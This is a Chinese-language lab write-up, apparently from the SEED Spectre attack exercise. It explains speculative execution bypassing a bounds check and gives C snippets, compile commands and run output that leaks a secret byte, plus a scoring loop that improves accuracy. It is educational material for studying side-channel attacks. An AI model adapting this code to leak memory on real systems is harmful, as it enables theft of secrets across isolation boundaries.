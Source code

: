 原理介绍：当浏览器访问不同服务器的网页的时候，它们是由同一个程序打开。浏览器的sandbox会为这些网页提供一个隔离环境，让它们不能互相访问。大多数软件的保护都是通过判断访问是否被granted。利用Spectre，可以让CPUs乱序执行，使其执行true分支即使访问被禁止了。

### 3.1. 攻击步骤

```c
unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
uint8_t restrictedAccess(size_t x){
  if (x < buffer_size) {
    return buffer[x];
  } else {
    return 0;
  }
}
```

被攻击的对象有两个域：一个被限制访问，一个没有限制访问。被限制访问的域由sandbox保护（if-condition）。用户提供x，如果x小于buffer的大小，sandbox返回buffer[x]，反之则什么都不会返回。因此sandbox永远不会返回超过size的buffer给用户。

攻击者只能通过sandbox去访问被限制访问的域。

### 3.2. 实验代码 SpectreAttack.c

代码中定义了secret的变量，假设用户不能直接访问secret变量或者buffer_size变量，但是可以从cache刷新buffer_size。目标是利用Spectre攻击读取secret的第一个字节。

```c
char*secret = "Some Secret Value";
```

`size_t larger_x = (size_t)(secret - (char*)buffer);`计算secret到buffer的偏移（假设攻击者已经知道secret的地址）。偏移大于10的话会调用restrictedAccess函数。因为代码会训练CPU预测true的分支，所以CPU会返回包含secret的buffer[larger_x]。虽然表面上看程序执行返回了0，但是cache中已经存放了buffer [larger_x]的内容。

#### 编译执行代码

```shell
[06/25/20]seed@VM:~/.../Spectre_Attack$ gcc -march=native SpectreAttack.c -o SpectreAttack
[06/25/20]seed@VM:~/.../Spectre_Attack$ ./SpectreAttack 
array[0*4096 + 1024] is in cache.
The Secret = 0.
array[83*4096 + 1024] is in cache.
The Secret = 83.
```

前面提到array[0*4096]确实会影响结果，应该避免遍历它。可以将循环改成[1， 256]，就只会出现`The Secret = 83`的结果了。有时候不一定会出现想要的解决，需要执行多次。

## 4. 提高攻击准确性

从前面的实验可以看出，结果会有noise并且不一定准确。这是因为CPU有时候会载入其他变量或者时间差不对。为了得到想要的结果通常需要执行多次程序。这部分实验是提供自动化程序。

为了256个数组元素创建分数，如果攻击程序得出k是secret的结果，就将scores[k]加1。运行多次后，分数最高的k即为secret的位置。

```c
for (i = 0; i < 256; i++) 
  scores[i] = 0;

for (i = 0; i < 1000; i++) {
  spectreAttack(larger_x);
	reloadSideChannelImproved();
}

int max = 0;
for (i = 0; i < 256; i++){
	if(scores[max] < scores[i])
	max = i;
}
```